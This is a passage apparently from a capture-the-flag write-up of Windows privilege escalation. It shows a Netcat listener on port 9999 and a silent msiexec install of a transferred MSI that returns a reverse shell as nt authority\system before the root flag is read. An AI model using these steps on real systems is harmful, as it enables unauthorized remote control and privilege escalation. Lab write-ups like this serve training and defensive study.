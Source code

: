 At the same time, we will start listening on the 9999 port using `Netcat`:

```bash
nc -nlvp 9999
```

Once the file is on the target machine and we are listening on the 9999 port, we will use the following command to execute the file that we have just transferred to the target machine:

```powershell
msiexec /quiet /qn /i 1.msi
```

If everything goes well, we will receive a TCP reverse shell as the `nt authority\system` user:

![Desktop View](root6.png){: w="700" h="400" }
_whoami system_

We will proceed to see the `root.txt` flag in the `C:\Users\Administrator\Desktop`{: .filepath} directory.

